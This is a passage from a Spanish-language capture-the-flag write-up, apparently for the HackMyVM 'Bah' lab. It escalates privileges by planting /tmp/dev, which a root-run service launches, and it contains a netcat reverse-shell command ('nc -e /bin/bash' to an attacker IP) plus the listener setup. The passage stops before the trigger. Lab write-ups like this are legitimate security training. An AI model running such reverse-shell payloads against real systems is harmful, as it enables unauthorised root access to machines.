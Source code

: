 Vemos que la opción **`-s`** sirve para iniciar un servicio y, como vimos en el **`output`** de [**`LinPEAS`**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), se está utilizando la siguiente configuración:

```sh
-s/:LOGIN -s /devel:root:root:/:/tmp/dev
```

Vemos que si nos vamos a la ruta **`/devel`{: .filepath }** se iniciará un servicio llamado **`dev`** en la carpeta **`/tmp/`{: .filepath }**, pero no vemos ningún fichero llamado **`dev`**:

```sh
rocio@bah:/tmp$ ls -la
total 868
drwxrwxrwt  9 root  root    4096 Sep 26 16:09 .
drwxr-xr-x 18 root  root    4096 Aug 18  2021 ..
drwxrwxrwt  2 root  root    4096 Sep 26 15:03 .font-unix
drwxrwxrwt  2 root  root    4096 Sep 26 15:03 .ICE-unix
-rwxr-xr-x  1 rocio rocio 848400 Sep 26 15:51 linpeas.sh
drwx------  3 root  root    4096 Sep 26 15:03 systemd-private-e21a1f9017cc438991619eb3c5313899-systemd-logind.service-Bmy5mg
drwx------  3 root  root    4096 Sep 26 15:03 systemd-private-e21a1f9017cc438991619eb3c5313899-systemd-timesyncd.service-yC7itj
drwxrwxrwt  2 root  root    4096 Sep 26 15:03 .Test-unix
drwxrwxrwt  2 root  root    4096 Sep 26 15:03 .X11-unix
drwxrwxrwt  2 root  root    4096 Sep 26 15:03 .XIM-unix
```

No pasa nada, podemos crear uno y, como lo iniciará utilizando el usuario **`root`** podemos llegar a obtener una **`Reverse Shell`**. Vamos a ver cómo hacerlo:

Para empezar crearemos un fichero llamado **`dev`** en el directorio **`/tmp/`{: .filepath }** y, con **`Bash`**, utilizaremos **`NetCat`** para el envío de la **`Shell`**:

```sh
#!/bin/bash
 
nc -e /bin/bash 192.168.1.107 443
```

Una vez creado el fichero tenemos que otorgarle permisos de ejecución:

```sh
rocio@bah:/tmp$ chmod +x dev
```

Por último necesitamos ponernos en escucha por el puerto que hayamos especificado, en mi caso, el puerto **`443`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Bah]
└─# nc -nlvp 443
listening on [any] 443 ...
```

Ahora sí, ya estamos preparados para la explotación. Para ello haremos lo que ponía en el manual, visitar la ruta (en este caso [**`devel`**](http://party.bah.hmv/devel)) para que se inicie el servicio:
